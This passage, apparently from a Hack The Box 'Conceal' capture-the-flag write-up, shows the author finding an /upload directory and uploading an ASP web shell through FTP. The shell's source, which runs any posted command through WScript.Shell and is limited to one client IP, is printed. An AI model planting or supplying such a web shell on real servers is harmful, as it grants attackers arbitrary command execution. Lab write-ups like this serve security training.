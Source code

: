 There's a page found : `/upload`.

![](attachments/conceal_2.png)

It's a directory listing page, but has no file yet except the file I uploaded using `ftp` protocol.



# Shell as `destitute`

### File upload via `ftp`

Since I can upload any file on the web root directory, let's upload `shell.asp` file.

```asp
┌──(kali㉿kali)-[~/htb/conceal]
└─$ cat shell.asp    

<SNIP>

' can set this to 0 for never time out but don't want to kill the server if a script
' goes into a loop for any reason
Server.ScriptTimeout = 180

ip=request.ServerVariables("REMOTE_ADDR")
if ip<>"10.10.14.4" then
 response.Status="404 Page Not Found!!"
 response.Write(response.Status)
 response.End
end if

if Request.Form("submit") <> "" then
   Dim wshell, intReturn, strPResult
   cmd = Request.Form("cmd")
   Response.Write ("Running command: " & cmd & "<br />")
   set wshell = CreateObject("WScript.Shell")
   Set objCmd = wShell.Exec(cmd)
   strPResult = objCmd.StdOut.Readall()

   response.write "<br><pre>" & replace(replace(strPResult,"<","&lt;"),vbCrLf,"<br>") & "</pre>"

   set wshell = nothing
end if

<SNIP
```
